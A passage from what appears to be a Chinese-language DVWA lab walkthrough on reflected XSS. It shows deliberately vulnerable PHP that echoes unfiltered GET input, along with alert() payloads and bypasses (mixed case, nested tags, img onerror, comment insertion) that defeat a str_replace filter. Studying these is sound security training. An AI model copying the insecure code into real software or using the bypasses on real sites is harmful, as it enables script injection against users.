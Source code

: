     	?> 




- 分析与利用

	直接通过$_GET方式获取name的值，之后未进行任何编码和过滤，导致用户输入一段js脚本会执行。

- 构造payload

	`	
	<script>alert(/xss/)</script>
	`



----------

2.Medium Reflected XSS Source

- 漏洞代码

		<?php
			header ("X-XSS-Protection: 0");

			// Is there any input?
			if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {

			// Get input
			$name = str_replace( '<script>', '', $_GET[ 'name' ] );
			
			// Feedback for end user
			echo "<pre>Hello ${name}</pre>";
			}
		
		?> 


- 分析与利用

	str_replace对输入的 `<script>` 标签进行替换为空

- 构造payload
	
	
	1. 此时可以多写入一个`<script>`, 过滤方法把中间的`<script>`标签替换为空之后 `<scrip` 与 `t>` 重新组合一个`<script>`，成功执行代码
	2. 标签转换大小写的方式进行绕过 `<scRipt>alert(/xss2/)</sCript>`
	3. 构造别的标签 如`<img src=0 onerror=alert(/xss1/)>`
	4. 前端是可以插入一些注释标签的，后台可能不认识`<scri<!--test-->pt`>,并不会认为只是`<script>`标签


----------

3.High Reflected XSS Source

- 漏洞代码
 
		<?php
		
			header ("X-XSS-Protection: 0");
			
			// Is there any input?
	
